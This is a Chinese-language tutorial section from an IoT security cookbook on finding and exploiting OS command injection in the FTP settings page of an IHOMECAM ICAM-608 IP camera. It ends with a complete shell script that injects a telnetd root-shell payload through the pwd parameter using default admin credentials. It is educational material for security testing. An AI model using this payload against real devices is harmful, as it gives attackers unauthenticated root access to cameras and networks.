








## 4.5 利用命令注入
在嵌入式系统中，操作系统命令注入是一个常见的漏洞，常常是由固件开发构建中为了执行OS命令而遗留的web接口和debug页面。用户通过在web接口的服务参数中提供命令来执行OS命令。一个动态设置且未正确校验的参数容易受到利用漏洞的影响。利用可以执行OS命令的能力，攻击者可以上传恶意固件，改变配置，获取设备的永久访问权，获取密码，攻击网络中的其他设备，或者甚至锁住设备的合法用户使用。本章中，我们将展示如何利用命令注入来获取设备的shell访问权限。

### 4.5.1 Getting ready

本节中，我们将使用tcpdump，Burp Suite, 和一个脆弱的IHOMECAM ICAM-608 IP 相机.Tcpdump 默认被安装在类Unix系统中，但是Wirewhark也可以用于观察包。

### 4.5.2 How to do it...

在嵌入式web应用中找可以命令注入的页面是非常重要的。我们想要第一个检测的web应用页面是使用系统命令的诊断页，如ping或者traceroute，也使用守护进程的配置设置页，例如SMB、PPTP或者FTP。如果我们已经获取固件或者目标设备的命令行访问权，最好静态分析设备执行的易受攻击的脚步和函数，并通过动态分析验证发现的潜在问题：

<br>&emsp;&emsp;&emsp;1. 我们观察一下我们的目标IP相机的配置菜单设置，以找到易受攻击的页面：



<br>&emsp;&emsp;&emsp;2. 我们没有几个页面可以选择，但是我们确实看到了邮箱服务和FTP服务设置页面。这些页面可能被注入命令到操作系统执行。我们首先测试FTP服务并尝试通过Burp Suite用系统命令来操作参数的值：



<br>&emsp;&emsp;&emsp;3. 当尝试在pwd参数中发送payload（ping%2012.168.1.184）看起来似乎被删除了一个字符，如下图所示：



<br>&emsp;&emsp;&emsp;4. 使用一个像ping这样的基本指令到我们的目标计算机，说明：我们的指令已经成功执行了。为了观察ping是否以及执行，设置tcpdump来监听来自目标IP相机的ICMP包，使用以下指令：


<br>&emsp;&emsp;&emsp;5. 使用Burp Suite的Repeater，我们可以改变payload的值，并通过客户端检查是否执行。使用下面的请求，我们可以看到一样接受了我们的改变并且需要基于响应刷新ftp.htm页面：



<br>&emsp;&emsp;&emsp;6. 刷新ftp.htm页面之后，我们观察被发送到我们主机的ICMP包：




<br>&emsp;&emsp;&emsp;7. 现在我们知道pwd参数容易被命令注入利用，我们的下一个目标是获取目标设备的shell访问权限，根据FTP的使用，我们知道IP相机包含遗留守护进程，机会是Telnet也被使用了。然后，我们将执行启动Telnet，端口为25，并且使用下面的payload，不需要用户名密码进入shell：


<br>&emsp;&emsp;&emsp;8. 我们也知道ftp.htm页面需要刷新来保存设置，但是查看页面源码，它是调用一个称为ftptest.cgi的CGI接口执行我们的payload，下面是ftp.htm页面中执行我们的payload的源码片段：



<br>&emsp;&emsp;&emsp;9. 接下来，我们可以使用下面的GET请求直接调用ftptest.cgi来保存设置：


<br>&emsp;&emsp;&emsp;10. Telnet运行在端口25上，并给我们一个root shell：



<br>&emsp;&emsp;&emsp;11. 在shell获取到之后，在设备的局域网中有许多种方法可以用来完成后利用操作。后利用技术本节不介绍；然而，我们可以使用以下的bash脚步轻松地完成我们的命令注入获取访问权限：

```shell
#!/bin/sh
            wget -q'-
            'http://192.168.1.177/set_ftp.cgi?next_url=ftp.htm&loginuse=admin&l
            oginpas=admin&svr=192.168.1.1&port=21&user=ftp&pwd=$(telnetd -p25 -
            l/bin/sh)&dir=/&mode=PORT&upload_interval=0'
            wget -qO-
            'http://192.168.1.177/ftptest.cgi?next_url=test_ftp.htm&loginuse=ad
            min&loginpas=admin'
            telnet 192.168.1.177 25
```

在本节中，我们学习了在IHOMECAM ICAM-608相机上，命令注入的发现和利用。我们能够获取shell访问，并创建脚步自动完成命令注入利用。
### 4.5.3 See also

* 为了学习更多的命令注入发现和预防技术，可以参考OWASP的命令注入Wiki页面([https://www.owasp.org/index.php/Command_Injection](https://www.owasp.org/index.php/Command_Injection)), 也可以在OWASP的嵌入式应用安全项目([https://www.owasp.org/index.php/OWASP_Embedded_Application_Security](https://www.owasp.org/index.php/OWASP_Embedded_Application_Security))
